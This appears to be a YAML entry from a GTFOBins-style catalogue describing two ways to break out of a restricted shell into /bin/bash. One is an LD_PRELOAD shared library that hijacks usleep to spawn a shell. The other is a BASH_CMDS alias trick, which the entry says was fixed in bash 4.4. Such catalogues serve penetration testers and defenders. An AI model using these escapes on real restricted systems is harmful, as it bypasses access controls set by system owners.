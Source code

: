 ```yaml
---
functions:
  shell:
    - description: Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to replace one of the functions (example with usleep).
      code: |
        vim script.c
        #include <stdio.h>
        #include <stdlib.h>
        void usleep() {
          unsetenv("LD_PRELOAD");
          system("echo ok! && /bin/bash");
          exit(0);
        }
        gcc -shared script.c -o script
        declare -x LD_PRELOAD=/path/to/script
    - description: "This was fixed in bash 4.4 (see https://lists.gnu.org/archive/html/bug-bash/2017-03/msg00077.html)"
      code: |
        BASH_CMDS[gtfo]=/bin/bash; gtfo
---
```

